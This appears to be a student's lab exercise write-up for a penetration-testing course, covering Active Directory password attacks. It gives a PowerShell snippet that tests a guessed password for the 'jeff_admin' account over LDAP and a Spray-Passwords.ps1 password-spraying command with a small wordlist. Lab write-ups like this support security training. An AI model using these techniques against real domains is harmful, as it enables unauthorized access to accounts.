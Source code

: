 ### 21.3.5.1 Exercises
#### 1. Use the PowerShell script in this module to guess the password of the jeff_admin user.

Used this script:

```powershell
# Enumerate AD passwords
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
```

![image-20200729115635155](.21.3.5.1.assets/image-20200729115635155.png)

#### 2. Use the Spray-Passwords.ps1 tool to perform a lookup brute force attack of all users in the domain from a password list.

1. Created wordlist.txt with 2 passwords:  Qwerty09! and lab

2. Ran Spray-Passwords.ps1
   
   ```powershell
   .\Spray-Passwords.ps1 -File wordlist.txt -Admin
   ```
   
   ![image-20200729123030550](.21.3.5.1.assets/image-20200729123030550.png)

